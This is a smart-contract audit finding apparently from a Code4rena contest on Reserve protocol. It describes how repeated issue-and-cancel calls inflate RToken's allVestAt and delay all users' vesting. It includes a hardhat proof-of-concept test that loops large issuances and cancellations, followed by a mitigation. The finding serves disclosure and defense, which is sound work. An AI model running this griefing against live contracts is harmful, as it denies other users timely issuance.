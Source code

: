 ## Tags

- bug
- 2 (Med Risk)
- primary issue
- satisfactory
- selected for report
- M-13

# [attacker can prevent vesting for a very long time](https://github.com/code-423n4/2023-01-reserve-findings/issues/267) 

# Lines of code

https://github.com/reserve-protocol/protocol/blob/df7ecadc2bae74244ace5e8b39e94bc992903158/contracts/p1/RToken.sol#L358-L369


# Vulnerability details

## Description
When a user wants to issue RTokens there is a limit of how many can be issued in the same block. This is determined in the `whenFinished` function.

It looks at how many tokens the user wants to issue and then using the `issuanceRate` it calculates which block the issuance will end up in, `allVestAt`.


```javascript
File: RToken.sol

358:        uint192 before = allVestAt; // D18{block number}
359:        // uint192 downcast is safe: block numbers are smaller than 1e38
360:        uint192 nowStart = uint192(FIX_ONE * (block.number - 1)); // D18{block} = D18{1} * {block}
361:        if (nowStart > before) before = nowStart;

...

368:        finished = before + uint192((FIX_ONE_256 * amtRToken + (lastIssRate - 1)) / lastIssRate);
369:        allVestAt = finished;
```

If this is the current block and the user has no other queued issuances the issuance can be immediate otherwise it is queued to be issued after the `allVestAt` block.

```javascript
File: RToken.sol

243:        uint192 vestingEnd = whenFinished(amtRToken); // D18{block number}

...

251:        if (
252:            // D18{blocks} <= D18{1} * {blocks}
253:            vestingEnd <= FIX_ONE_256 * block.number &&
254:            queue.left == queue.right &&
255:            status == CollateralStatus.SOUND
256:        ) {
                // do immediate issuance
            }

287:        IssueItem storage curr = (queue.right < queue.items.length)
288:            ? queue.items[queue.right]
289:            : queue.items.push();
290:        curr.when = vestingEnd; // queued at vestingEnd (allVestAt)
```

Then in `vestUpTo` it is checked that this is vested at a later block:

```javascript
File: RToken.sol

746:        IssueItem storage rightItem = queue.items[endId - 1];
747:        require(rightItem.when <= FIX_ONE_256 * block.number, "issuance not ready");
```

If a user decide that they do not want to do this vesting they can cancel pending items using `cancel`, which will return the deposited tokens to them.

However this cancel does not reduce the `allVestAt` state so later issuances will still be compared to this state.

Hence a malicious user can issue a lot of RTokens (possibly using a flash loan) to increase `allVestAt` and then cancel their queued issuance. Since this only costs gas this can be repeated to push `allVestAt` to a very large number effectively delaying all vesting for a very long time.

## Impact
A malicious user can delay issuances a very long time costing only gas.

## Proof of Concept
PoC test in `RToken.test.ts`:

```javascript
    // based on 'Should allow the recipient to rollback minting'
    it('large issuance and cancel griefs later issuances', async function () {
      const issueAmount: BigNumber = bn('5000000e18') // flashloan or rich

      // Provide approvals
      const [, depositTokenAmounts] = await facade.callStatic.issue(rToken.address, issueAmount)
      await Promise.all(
        tokens.map((t, i) => t.connect(addr1).approve(rToken.address, depositTokenAmounts[i]))
      )

      await Promise.all(
        tokens.map((t, i) => t.connect(addr2).approve(rToken.address, ethers.constants.MaxInt256))
      )
      
      // Get initial balances
      const initialRecipientBals = await Promise.all(tokens.map((t) => t.balanceOf(addr2.address)))

      // Issue a lot of rTokens
      await rToken.connect(addr1)['issue(address,uint256)'](addr2.address, issueAmount)

      // Cancel
      await expect(rToken.connect(addr2).cancel(1, true))
        .to.emit(rToken, 'IssuancesCanceled')
        .withArgs(addr2.address, 0, 1, issueAmount)

      // repeat to make allVestAt very large
      for(let j = 0; j<100 ; j++) {
        await rToken.connect(addr2)['issue(address,uint256)'](addr2.address, issueAmount)

        await expect(rToken.connect(addr2).cancel(1, true))
          .to.emit(rToken, 'IssuancesCanceled')
          .withArgs(addr2.address, 0, 1, issueAmount)
      }

      // Check balances returned to the recipient, addr2
      await Promise.all(
        tokens.map(async (t, i) => {
          const expectedBalance = initialRecipientBals[i].add(depositTokenAmounts[i])
          expect(await t.balanceOf(addr2.address)).to.equal(expectedBalance)
        })
      )
      expect(await facadeTest.callStatic.totalAssetValue(rToken.address)).to.equal(0)

      const instantIssue: BigNumber = MIN_ISSUANCE_PER_BLOCK.sub(1)
      await Promise.all(tokens.map((t) => t.connect(addr1).approve(rToken.address, initialBal)))

      // what should have been immediate issuance will be queued
      await rToken.connect(addr1)['issue(uint256)'](instantIssue)

      expect(await rToken.balanceOf(addr1.address)).to.equal(0)

      const issuances = await facade.callStatic.pendingIssuances(rToken.address, addr1.address)
      expect(issuances.length).to.eql(1)
    })
```

## Tools Used
manual auditing and hardhat

## Recommended Mitigation Steps
`cancel` could decrease the `allVestAt`. Even though, there's still a small possibility to grief by front running someones issuance with a large `issue`/`cancel` causing their vest to be late, but this is perhaps an acceptable risk as they can then just cancel and re-issue.